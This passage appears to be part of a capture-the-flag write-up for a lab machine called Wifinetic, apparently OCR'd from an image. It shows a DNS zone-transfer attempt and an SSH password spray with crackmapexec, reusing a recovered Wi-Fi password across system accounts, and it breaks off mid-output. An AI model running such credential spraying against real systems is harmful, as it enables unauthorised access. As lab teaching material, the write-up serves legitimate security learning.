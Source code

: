 
    10.10.11.247 wifinetic.htb



Given that DNS is listening on TCP, I'll try a zone transfer to see if
there are any subdomains:



    oxdf@hacky$ dig asxf @10.10.11.247 wifinetic.htb
    ;; communications error to 10.10.11.247#53: timed out
    ;; communications error to 10.10.11.247#53: timed out
    ;; communications error to 10.10.11.247#53: timed out

    ; <<>> DiG 9.18.12-0ubuntu0.22.04.1-Ubuntu <<>> asxf @10.10.11.247 wifinetic.htb
    ;; global options: +cmd
    ;; no servers could be reached

    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 17349
    ;; flags: qr aa rd ra ad; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 65494
    ;; QUESTION SECTION:
    ;wifinetic.htb.                 IN      A

    ;; ANSWER SECTION:
    wifinetic.htb.          0       IN      A       10.10.11.247

    ;; Query time: 0 msec
    ;; SERVER: 127.0.0.53#53(127.0.0.53) (UDP)
    ;; WHEN: Tue Sep 12 20:44:43 EDT 2023
    ;; MSG SIZE  rcvd: 58



I'm not sure why it times out at first, but it eventually succeeds and
finds just the main domain.

## Shell as netadmin

### SSH Password Bruteforce

With the password from the Wifi config, I'll use `crackmapexec` to try
each user from the `passwd` file with the password from the wireless
config over SSH. I like to use `--continue-on-success` in case there are
more than one user that shares that password. It finds one:



    oxdf@hacky$ crackmapexec ssh 10.10.11.247 -u users -p 'VeRyUniUqWiFIPasswrd1!' -
    ontinue-on-success
    SSH         10.10.11.247    22     10.10.11.247     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
    SSH         10.10.11.247    22     10.10.11.247     [-] root:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] daemon:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] ftp:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] network:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] nobody:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] ntp:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] dnsmasq:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] logd:VeRyUniUqWiFIPasswrd1! Authentication failed.